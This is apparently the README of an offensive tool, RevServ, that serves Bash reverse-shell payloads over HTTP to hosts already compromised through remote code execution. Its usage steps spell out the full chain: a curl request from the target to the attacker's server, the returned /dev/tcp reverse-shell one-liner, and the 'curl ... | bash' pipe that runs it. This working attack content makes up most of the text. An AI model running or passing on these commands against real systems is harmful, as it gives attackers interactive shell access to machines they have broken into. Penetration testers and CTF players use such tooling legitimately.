 # RevServ
Serving Bash reverse-shell payload via http

## Usage
```bash
root@darkness:~# python3 reversv.py -h

   _____  _            _  _                                                 
  / ____|| |          | || |                                                
 | (___  | |__    ___ | || |  ______   ___   ___  _ __ __   __ ___  _ __    
  \___ \ | '_ \  / _ \| || | |______| / __| / _ \| '__|\ \ / // _ \| '__|   
  ____) || | | ||  __/| || |          \__ \|  __/| |    \ V /|  __/| |      
 |_____/ |_| |_| \___||_||_|          |___/ \___||_|     \_/  \___||_|      
  _               _____  _             ___           __          ____       
 | |             / ____|| |           / _ \         / /         / __ \      
 | |__   _   _  | |     | |__   _ __ | | | |__  __ / /_    ___ | |  | | ___ 
 | '_ \ | | | | | |     | '_ \ | '__|| | | |\ \/ /| '_ \  / _ \| |  | |/ __|
 | |_) || |_| | | |____ | | | || |   | |_| | >  < | (_) ||  __/| |__| |\__ \
 |_.__/  \__, |  \_____||_| |_||_|    \___/ /_/\_\ \___/  \___| \____/ |___/
          __/ |                                                             
         |___/                                                              

Twitter:    https://twitter.com/Chr0x6eOs
Github:     https://github.com/Chr0x6eOs
____________________________________________________________________________
    
usage: revserv.py [-h] [-p PORT]

optional arguments:
  -h, --help            show this help message and exit
  -p PORT, --port PORT  Port for http-server to listen
  ```

## How does it work?

1.) Start the server
```bash
root@darkness:~# python3 revserv.py
[*] Serving bash-reverse-shell on 0.0.0.0:80...
```

2.) Issue command (e.g. through RCE)

The reverse-shell port (defaulted to 443) can be specified by the resource-path (e.g: /4444).
```bash
www-data@target:~$ curl 192.168.0.1/4444
```

3.) Program generates bash-reverse-shell
```bash
root@darkness:~# python3 revserv.py
[*] Serving bash-reverse-shell on 0.0.0.0:80...
[*] Served reverse-shell payload via http to 127.0.0.1!
Generate reverse-shell for port 4444!
```

4.) Payload gets send to target
```bash
www-data@target:~$ curl 192.168.0.1/4444
#!/bin/bash
bash -c 'bash -i >& /dev/tcp/10.10.14.5/4444 0>&1'
```

5.) Pipe payload to bash for reverse-shell
```bash
www-data@target:~$ curl 192.168.0.1/4444 | bash
```

